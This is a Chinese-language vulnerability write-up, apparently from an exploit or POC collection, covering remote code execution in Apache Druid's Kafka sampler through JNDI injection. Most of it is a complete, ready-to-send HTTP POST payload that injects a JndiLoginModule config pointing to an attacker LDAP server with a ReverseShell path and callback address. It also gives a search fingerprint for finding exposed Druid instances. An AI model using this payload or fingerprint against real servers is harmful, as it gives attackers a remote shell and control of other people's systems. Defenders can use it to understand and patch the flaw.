 # Apache Druid sampler kafka 远程命令执行漏洞

## 漏洞描述

Apache Druid 支持从 Kafka 加载数据，恶意的攻击者可通过修改 Kafka 连接配置属性，从而进一步触发 JNDI 注入攻击，最终攻击者可在服务端执行任意恶意代码，获取系统服务权限。

## 漏洞影响

<a-checkbox checked>Apache Druid </a-checkbox></br>

## 网络测绘

<a-checkbox checked>title_string = "Apache Druid"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1682919141181-6c39b2c9-e803-4fa3-af91-4c933f863780.png)

验证POC

```python
POST /druid/indexer/v1/sampler?for=connect HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 1392
Content-Type: application/json
Accept-Encoding: gzip, deflate
Connection: close  

{
    "type":"kafka",
    "spec":{
            "type":"kafka",
            "ioConfig":{
                "type":"kafka",
                "consumerProperties":{
                    "bootstrap.servers":"6.6.6.6:9092",
                    "sasl.mechanism":"SCRAM-SHA-256",
                    "security.protocol":"SASL_SSL",
                    "sasl.jaas.config":"com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://xxx.xxx.xxx.xxx:1389/Basic/ReverseShell/xxx.xxx.xxx.xxx/8373\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"xxx\";"
                },
                "topic":"any",
                "useEarliestOffset":true,
                "inputFormat":{
                    "type":"regex",
                    "pattern":"([\\s\\S]*)",
                    "listDelimiter":"56616469-6de2-9da4-efb8-8f416e6e6965",
                    "columns":[
                            "raw"
                    ]
                }
            },
            "dataSchema":{
                "dataSource":"sample",
                "timestampSpec":{
                    "column":"!!!_no_such_column_!!!",
                    "missingValue":"1970-01-01T00:00:00Z"
                },
                "dimensionsSpec":{        

                },
                "granularitySpec":{
                    "rollup":false
                }
            },
            "tuningConfig":{
                "type":"kafka"
            }
    },
    "samplerConfig":{
            "numRows":500,
            "timeoutMs":15000
    }
}
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1682919248408-90090556-799e-4a7a-9d54-d6ef94541686.png)